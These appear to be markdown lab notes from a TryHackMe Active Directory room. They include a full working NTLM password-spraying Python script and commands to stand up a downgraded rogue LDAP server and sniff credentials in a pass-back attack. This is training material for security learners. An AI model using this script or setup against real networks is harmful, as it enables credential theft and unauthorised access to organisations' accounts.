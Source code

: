 # Compromising Active Directory

# Breaching Active Directory
## NTLM and NetNTLM
New Technology LAN Manager (NTLM) is the suite of security protocols used to authenticate users' identities in AD. NTLM can be used for authentication by using a challenge-response-based scheme called NetNTLM.   
<img src="https://github.com/nkn-ctrl/TryHackMe/assets/73976100/e39c9f95-dbec-484c-a3f2-6cd244c93fdd" width=600>

### Brute-force Login Attacks  
**Password Spraying**  
<details>
<summary>ntlm_passwordspray.py</summary>  

```
#!/usr/bin/python3

import requests
from requests_ntlm import HttpNtlmAuth
import sys, getopt

class NTLMSprayer:
    def __init__(self, fqdn):
        self.HTTP_AUTH_FAILED_CODE = 401
        self.HTTP_AUTH_SUCCEED_CODE = 200
        self.verbose = True
        self.fqdn = fqdn

    def load_users(self, userfile):
        self.users = []
        lines = open(userfile, 'r').readlines()
        for line in lines:
            self.users.append(line.replace("\r", "").replace("\n", ""))

    def password_spray(self, password, url):
        print ("[*] Starting passwords spray attack using the following password: " + password)
        count = 0
        for user in self.users:
            response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
            if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
                print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
                count += 1
                continue
            if (self.verbose):
                if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                    print ("[-] Failed login with Username: " + user)
        print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")

def main(argv):
    userfile = ''
    fqdn = ''
    password = ''
    attackurl = ''

    try:
        opts, args = getopt.getopt(argv, "hu:f:p:a:", ["userfile=", "fqdn=", "password=", "attackurl="])
    except getopt.GetoptError:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)

    for opt, arg in opts:
        if opt == '-h':
            print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
            sys.exit()
        elif opt in ("-u", "--userfile"):
            userfile = str(arg)
        elif opt in ("-f", "--fqdn"):
            fqdn = str(arg)
        elif opt in ("-p", "--password"):
            password = str(arg)
        elif opt in ("-a", "--attackurl"):
            attackurl = str(arg)

    if (len(userfile) > 0 and len(fqdn) > 0 and len(password) > 0 and len(attackurl) > 0):
        #Start attack
        sprayer = NTLMSprayer(fqdn)
        sprayer.load_users(userfile)
        sprayer.password_spray(password, attackurl)
        sys.exit()
    else:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)



if __name__ == "__main__":
    main(sys.argv[1:])
```

</details>  

```
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>  
# <userfile> - Textfile containing our usernames - "usernames.txt"
# <fqdn> - Fully qualified domain name associated with the organisation that we # are attacking - "za.tryhackme.com"
# <password> - The password we want to use for our spraying attack - "Changeme123"
# <attackurl> - The URL of the application that supports Windows Authentication - "http://ntlmauth.za.tryhackme.com"
```

## LDAP
Another method of AD authentication that applications can use is Lightweight Directory Access Protocol (LDAP) authentication. With LDAP authentication, the application directly verifies the user's credentials.  
<img src="https://github.com/nkn-ctrl/TryHackMe/assets/73976100/a241a94c-c3d2-446b-b43f-c8330fcc6e25" width=800>  

### LDAP Pass-back Attacks
This is a common attack against network devices, such as printers, when you have gained initial access to the internal network, such as plugging in a rogue device in a boardroom.  
1. Hosting a Rogue LDAP Server  
`sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`  
`sudo dpkg-reconfigure -p low slapd`  
Before using the rogue LDAP server, we need to make it vulnerable by downgrading the supported authentication mechanisms. We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods.  
we need to create a new ldif file.  
    ```
    #olcSaslSecProps.ldif
    dn: cn=config
    replace: olcSaslSecProps
    olcSaslSecProps: noanonymous,minssf=0,passcred
    ```  
    `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`  
2. Capturing LDAP Credentials  
    you can use a tcpdump to capture the credentials using the following command:  
    `sudo tcpdump -SX -i breachad tcp port 389`  

